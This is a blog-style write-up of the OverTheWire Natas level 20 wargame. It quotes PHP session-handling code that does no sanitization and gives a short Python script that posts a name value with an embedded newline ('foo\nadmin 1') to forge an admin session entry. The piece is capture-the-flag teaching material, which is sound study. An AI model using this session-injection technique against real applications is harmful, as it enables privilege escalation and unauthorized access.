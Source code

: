 ```yaml
---
layout: post
title:  "Natas Level 19 → Level 20"
date:   2021-05-29 21:34:21
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Write to own
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
This level starts with us logged in. We have a form that is intended to let us change our name and a link to the source code. The source for this level is too long. I'll highlight the more important sections. 

Additionally, due to the way this level was put together, I'll be testing the code from Python instead of the Developer Tools. This is due to the level requiring the use of the provided debug via GET, and the submission of data via POST. All results are printed via Debug which is not rendered to the webpage, but to the Request tab under the Network tab. To pass this level, multiple loads of the page are required. Not only is this too much hassle, but the testing via Python will result in us getting the password and as a final script.

Let's look at a few sections of the code.

Below we see what is needed for the application to consider us an admin.
- A session id must exist
- One of the keys to be "admin"
- The admin key must be set to "1"

```php
function print_credentials() { 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        ...
```

The myread function checks to see if we have a save session file, if we don't it creates one. It then reads the contents of that file. It uses spaces as delimiters and takes two entries at a time. These are then read in as a key/value. There is no sanitization.

```php
function myread($sid) { 
    ...
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        ...
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    ...
```

The mywrite function reads the save session file. It takes the values in $_SESSION and stores them two at a time with a space delimiter and ends with a newline. There is no sanitization.

```php
function mywrite($sid, $data) { 
    ...
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    ...
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
```

Looking over the list of what we need to do to become admin, we only need to exploit mywrite to create the key-value pair. The session id was created for us automatically when we first entered the site. The only way to see the password for the next level is to trigger the myread function while using debug. Let's create the script.


```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'e------------------------------F'
session = requests.Session()
auth = HTTPBasicAuth('natas20', password)
url = 'http://natas20.natas.labs.overthewire.org/index.php?debug'


def write_kvpair(key, value):
    resp = session.post(url=url, data={key: value}, auth=auth)
    print(resp.text)


def load_page():
    resp = session.get(url=url, auth=auth)
    print(resp.text)



write_kvpair("name", "foo\nadmin 1")
load_page()
```

